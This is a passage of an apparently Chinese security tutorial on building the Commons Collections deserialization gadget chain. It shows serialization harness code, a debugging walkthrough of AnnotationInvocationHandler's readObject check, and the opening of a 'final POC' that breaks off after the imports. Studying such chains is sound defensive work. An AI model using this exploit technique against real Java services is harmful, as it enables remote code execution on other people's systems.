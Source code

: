 ```java
        Object obj = constructor.newInstance(Retention.class,outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(obj);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois =new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}

```

看着挺复杂，其实只要看我之前发的反射基础篇就能很轻松写出来。

其实和demo最大的区别就是将 Runtime.getRuntime() 换成了 Runtime.class ，前者是一个
java.lang.Runtime 对象，后者是一个 java.lang.Class 对象。Class类有实现Serializable接口，所
以可以被序列化。  

但是报错解决了，却没有成功执行calc：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231119141530.png)

原因在于AnnotationInvocationHandler，readObject里有一个对var7的判断，只有它不是null才会继续执行setValue。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231119141827.png)

找到有关var7的语句：

```
var2 = AnnotationType.getInstance(this.type);
Map var3 = var2.memberTypes();
Iterator var4 = this.memberValues.entrySet().iterator();
......
Entry var5 = (Entry)var4.next();
String var6 = (String)var5.getKey();
Class var7 = (Class)var3.get(var6);
```

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231119142537.png)

可以看到var3里面有个key值是value，var6则是我们手动添加进hashmap的key值test，不匹配所以返回null，那么我们只要把test改为value即可：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231119142803.png)

最终POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
```